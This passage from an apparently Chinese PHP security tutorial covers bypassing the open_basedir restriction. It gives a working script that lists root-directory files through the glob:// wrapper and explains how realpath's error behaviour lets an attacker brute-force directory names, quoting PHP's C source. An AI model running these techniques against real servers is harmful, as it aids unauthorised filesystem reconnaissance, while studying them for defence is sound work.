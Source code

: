 ```php
<?php
printf('<b>open_basedir : %s </b><br />', ini_get('open_basedir'));
$file_list = array();
// normal files
$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
// special files (starting with a dot(.))
$it = new DirectoryIterator("glob:///.*");
foreach($it as $f) {
    $file_list[] = $f->__toString();
}
sort($file_list);
foreach($file_list as $f){
        echo "{$f}<br/>";
}
?>
```


现已就被修复了...


### 利用返回信息爆破目录

1. realpath 列举目录

Realpath函数是php中将一个路径规范化成为绝对路径的方法，它可以去掉多余的../或./等跳转字符，能将相对路径转换成绝对路径。

在开启了open_basedir以后，这个函数有个特点：当我们传入的路径是一个不存在的文件（目录）时，它将返回false；当我们传入一个不在open_basedir里的文件（目录）时，他将抛出错误（File is not within the allowed path(s)）。


我们来看一下源码: `ext/standard/file.c`

```c
PHP_FUNCTION(realpath)
{
	char *filename;
	size_t filename_len;
	char resolved_path_buff[MAXPATHLEN];

	ZEND_PARSE_PARAMETERS_START(1, 1)
		Z_PARAM_PATH(filename, filename_len)
	ZEND_PARSE_PARAMETERS_END();

	if (VCWD_REALPATH(filename, resolved_path_buff)) {
		if (php_check_open_basedir(resolved_path_buff)) {
			RETURN_FALSE;
		}

#ifdef ZTS
		if (VCWD_ACCESS(resolved_path_buff, F_OK)) {
			RETURN_FALSE;
		}
#endif
		RETURN_STRING(resolved_path_buff);
	} else {
		RETURN_FALSE;
	}
}
```
